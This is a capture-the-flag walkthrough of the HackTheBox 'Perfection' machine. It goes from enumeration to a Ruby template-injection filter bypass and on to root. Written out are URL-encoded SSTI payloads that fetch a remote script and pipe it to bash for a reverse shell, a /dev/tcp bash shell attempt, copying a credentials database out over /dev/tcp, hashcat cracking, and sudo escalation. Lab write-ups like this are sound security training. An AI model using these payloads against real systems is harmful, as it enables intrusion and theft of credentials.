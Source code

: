 # Enumeration

Start with the classics:
`nmap -sV -sC -Pn 10.10.11.253`

I see ssh and port 80 open:
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


Looks to be a calculator of some kind. Adding to etc hosts:
`echo '10.10.11.253 perfection.htb' | sudo tee -a /etc/hosts`

Now looking at the page...

The main page calls out WEBrick 1.7.0. But it doesn't appear theres is any vulns with that version.

There is also a page that allows for weighted-grade calculation. There could be inject vulns here.. 

But first lets directory fuzz.

`ffuf -w /Users/noneya/Useful/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt:FUZZ -u http://perfection.htb/FUZZ -ic`

While that runs I am going to test for other vulns...

I am seeing that when I enter junk info, it tells me enter a number but it seems to be front end.

The input fields of the calculator require the weights to equal 100.

But when I get past that it says malicious input blocked... So this might be the trick.

Directory fuzz isn't finding anything.

I could try obfuscation. But lets find the field that is vulnerable first.

So it appears to block any input that isn't a number in the grade field, what if I append ; to it?

The newline character isn't blocked...

So I can inject the new line and then ; now but no output is returned... Maybe a reverse shell?

Starting a hosted server on 8080 and seeing if I can netcat.

Using the grade field failed. But I just found that it says malicous input on the category field too.

When I try this `%3Bbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.10.232%2F2222%200%3E%261` its blocked and when I checked trying to end the string with ' it blocks it too...

This is definitly the weakness, but I am having trouble finding it...

Think its interesting that the About Us page mentions that the professor is a sysadmin. Likely part of the privesc if I was guessing.

I do see that the request seems to accept gzip encoding... maybe I could try that?

Nope and SQLmap didn't find anything either.

I could try SSI I guess. Interesting. [This page](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby---code-execution) shows SSTI for ruby and `<%= 7 * 7 %>` works when URL encoded and wrapped on both ends with a new line... As long as the new line is also followed by a valid string.

So I think I can try to run a reverse shell now.
Putting this in any category field works:
`%0A%3C%25%3D%20%60curl%20'http%3A%2F%2F10.10.14.232%3A8888%2FrevSh.sh'%7Cbash%60%20%25%3E%0A0`

Voila a reverse shell.

# Foothold

For pretty shell:
```
script /dev/null -qc /bin/bash
stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

Lets get the user flag:
`find -name '*user.txt' 2>/dev/null`

So now for privesc. Lets try sudo -l. Nothing...

When I cat /etc/passwd I only see the susan user that we are. But it did mention that we were a sysadmin in the about us page...

Looks like there is a file called pupilpath_credentials.db which is a SQLite db.

Gonna export to my local machine and try and read it.

On my local box:
`nc -lnvp 3333 > pupil_creds.db`

On the reverse shell:
`cat pupilpath_credentials.db > /dev/tcp/10.10.14.232/3333`

Then we can run `sqlite pupil_creds.db`

Then we can run `.tables` to see the tables.

Theres a users tables, so we can do `select * from users;`

Looks like it has a bunch of users and passwords. But we know Susan Miller is the sysadmin, so I think we can just crack hers.

Her hash is: `abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f`

I used [this page](https://www.tunnelsup.com/hash-analyzer/) to determine this is a Sha2-256 hash.

so we can try:
`hashcat --force -m 1400 hash.txt /Users/noneya/Useful/Wordlists/rockyou.txt`

But that fails. The discussion board mentions "checking your mail"

So I ran `find -name '*mail*' 2>/dev/null` and found that there is a /var/mail/susan with password specifications...

```
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student

```

Since we are literally just interested in Susan we could just create this wordlist manually.

I found the password with my script:
susan_nasus_413759210

And running sudo -l I confirmed it, as well as that I have all access.

So I can run:
`sudo find -name '*root.txt' 2>/dev/null`

Then:
`sudo cat ./root/root.txt` and I am good to go.
